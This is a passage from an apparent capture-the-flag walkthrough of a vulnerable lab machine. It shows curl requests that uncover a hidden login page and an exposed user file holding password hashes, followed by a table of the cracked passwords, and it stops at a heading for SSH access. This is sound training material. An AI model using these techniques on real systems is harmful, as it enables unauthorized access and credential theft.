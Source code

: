 It leads to a login page:

~~~
kali@kali:~$ curl -s http://172.16.222.170:8080/developmentsecretpage/sitemap.php?logout=1
<html>
<head>
<title>A Map of the Development Network -- the Brains of Good Tech</title>
</head>
<body><!--  This is the login form  -->
<form method="post" action="/developmentsecretpage/sitemap.php">
Username: <input type="text" name="slogin_POST_username" value=""><br>
Password: <input type="password" name="slogin_POST_password"><br>
<input type="submit" name="slogin_POST_send" value="Enter">
</form>
This is the property of Good Tech. All rights reserved.
</body>
</html>
~~~

Providing the form with a login and password discloses the following error message:

~~~
Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 335

Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 336
~~~

## `slogin_lib.inc.php`

Searching for "slogin_lib.inc.php" on the Internet leads to https://www.exploit-db.com/exploits/7444. After unsuccessfully trying to exploit the Remote File Inclusion (RFI), I eventually found the `slog_users.txt` file:

~~~
kali@kali:/data/digitalworld-local-development/files$ curl -s http://172.16.222.170:8080/developmentsecretpage/slog_users.txt
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
~~~

Using various password hashes databases on the Internet, we get most of the passwords:

username | password
---|---
admin | not found
intern | 12345678900987654321
patrick | P@ssw0rd25
qiu | qiu

# SSH as intern
